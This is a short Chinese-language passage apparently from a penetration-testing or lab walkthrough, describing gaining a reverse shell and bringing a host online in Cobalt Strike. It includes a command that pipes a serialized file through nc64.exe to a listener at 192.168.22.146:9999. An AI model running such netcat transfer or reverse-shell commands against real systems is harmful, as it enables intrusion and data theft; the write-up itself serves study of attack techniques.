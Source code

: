 ## 反弹 shell

使用 cs 进行执行。  
shell type C:\\phpstudy\_pro\\tmp\\cc66.ser | C:\\phpstudy\_pro\\tmp\\nc64.exe -nv 192.168.22.146 9999  
nc 开启监听，成功反弹 shell。

[![](assets/1698990322-0cc0862cf8bf5d1462badf2549023d4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173147-a4ebc4d4-7962-1.png)

## data 主机上线 cs
